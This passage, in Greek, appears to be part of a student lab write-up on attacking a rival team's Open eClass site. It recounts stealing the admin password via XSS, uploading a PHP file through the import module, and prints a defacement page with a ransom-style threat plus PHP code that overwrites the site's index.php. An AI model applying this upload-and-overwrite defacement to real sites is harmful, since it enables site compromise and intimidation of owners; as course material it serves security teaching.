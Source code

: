   Ύστερα, βέβαια από απόκτηση του κωδικού του διαχειριστή (επιτεύχθηκε μέσω XSS attack), καταφέραμε να έχουμε πρόσβαση στο `/modules/import/import.php`
  μέσω του οποίου ανεβάσαμε ένα δικό μας αρχείο .php, το οποίο εκτελέσαμε και αλλάξαμε τη κεντρική σελίδα του αντίπαλου site, σε μία δική μας
  index.php. Το συγκεκριμένο defacement, αναφέρθηκε και σε email που στάλθηκε στον drunkadmin.
  Το php αρχείο που ανέβηκε ήταν αυτό που άλλαζε την αρχική σελίδα του αντίπαλου site.
  O html κώδικας είναι ο παρακάτω:
  ```
  <!DOCTYPE html>
<html>
<head>
	<title>You have been hacked</title>
	<style>
		body {
			background-color: #1c1c1c;
			color: #e8e8e8;
			font-size: 80px;
			text-align: center;
			margin-top: 200px;
			font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
		}
		h1 {
			color: #ff5a5f;
			text-shadow: 2px 2px 4px #000000;
		}
		p {
			color: #f7b733;
			text-shadow: 1px 1px 2px #000000;
		}
	</style>
</head>
<body>
	<h1>You have been hacked by SecureNet</h1>
	<p>We've taken control of your system and there's nothing you can do about it.</p>
	<p>Your files are ours now. Pay up or suffer the consequences.</p>
	<p>SecureNet doesn't mess around.</p>
</body>
</html>

  ```

Ύστερα ανεβάσαμε και το αρχείο με τον παρακάτω κώδικα:
```
$old_name = "newIndex.php.php";
$new_name = "/var/www/openeclass/index.php";

if(rename($old_name, $new_name)) {
    echo "File renamed successfully.";
} else {
    echo "Error renaming file.";
}

```

Μετά την εκτέλεση του παραπάνω κώδικα αλλάξαμε την αρχική σελίδα του χρήστη.